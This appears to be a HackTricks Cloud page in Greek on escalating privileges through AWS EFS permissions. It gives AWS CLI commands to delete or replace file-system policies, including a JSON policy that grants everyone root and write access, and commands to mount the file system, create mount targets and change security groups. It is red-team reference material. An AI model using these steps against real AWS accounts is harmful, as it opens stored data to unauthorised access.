 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Περισσότερες **πληροφορίες σχετικά με το EFS** στο:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Θυμηθείτε ότι για να συνδέσετε ένα EFS πρέπει να βρίσκεστε σε ένα υποδίκτυο όπου το EFS είναι εκτεθειμένο και να έχετε πρόσβαση σε αυτό (ομάδες ασφαλείας). Αν αυτό συμβαίνει, από προεπιλογή, θα μπορείτε πάντα να το συνδέσετε, ωστόσο, αν είναι προστατευμένο από πολιτικές IAM, χρειάζεστε τις επιπλέον άδειες που αναφέρονται εδώ για να έχετε πρόσβαση σε αυτό.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Με οποιαδήποτε από αυτές τις άδειες, ένας επιτιθέμενος μπορεί να **αλλάξει την πολιτική του συστήματος αρχείων** για να **σας δώσει πρόσβαση** σε αυτό, ή απλώς να **το διαγράψει** ώστε να παραχωρηθεί η **προεπιλεγμένη πρόσβαση**.

Για να διαγράψετε την πολιτική:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Για να το αλλάξετε:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Με αυτή την άδεια, ένας επιτιθέμενος θα είναι σε θέση να **συνδέσει το EFS**. Εάν η άδεια εγγραφής δεν παρέχεται από προεπιλογή σε όλους όσους μπορούν να συνδέσουν το EFS, θα έχει μόνο **πρόσβαση ανάγνωσης**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Οι επιπλέον άδειες `elasticfilesystem:ClientRootAccess` και `elasticfilesystem:ClientWrite` μπορούν να χρησιμοποιηθούν για να **γράψουν** μέσα στο σύστημα αρχείων αφού έχει προσαρτηθεί και να **προσεγγίσουν** αυτό το σύστημα αρχείων **ως root**.

**Πιθανές Επιπτώσεις:** Έμμεση εκμετάλλευση μέσω εντοπισμού ευαίσθητων πληροφοριών στο σύστημα αρχείων.

### `elasticfilesystem:CreateMountTarget`

Εάν ένας επιτιθέμενος βρίσκεται σε ένα **υποδίκτυο** όπου **δεν υπάρχει στόχος προσαρτήσεως** του EFS. Θα μπορούσε απλά να **δημιουργήσει έναν στο υποδίκτυό του** με αυτή την άδεια:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Πιθανές Επιπτώσεις:** Έμμεσος privesc εντοπίζοντας ευαίσθητες πληροφορίες στο σύστημα αρχείων.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Σε ένα σενάριο όπου ένας επιτιθέμενος διαπιστώνει ότι το EFS έχει σημείο προσάρτησης στο υποδίκτυό του αλλά **κανένας κανόνας ασφαλείας δεν επιτρέπει την κίνηση**, θα μπορούσε απλώς να **αλλάξει αυτό τροποποιώντας τις επιλεγμένες ομάδες ασφαλείας**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Πιθανές Επιπτώσεις:** Έμμεση εκμετάλλευση δικαιωμάτων μέσω της εντοπισμού ευαίσθητων πληροφοριών στο σύστημα αρχείων.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
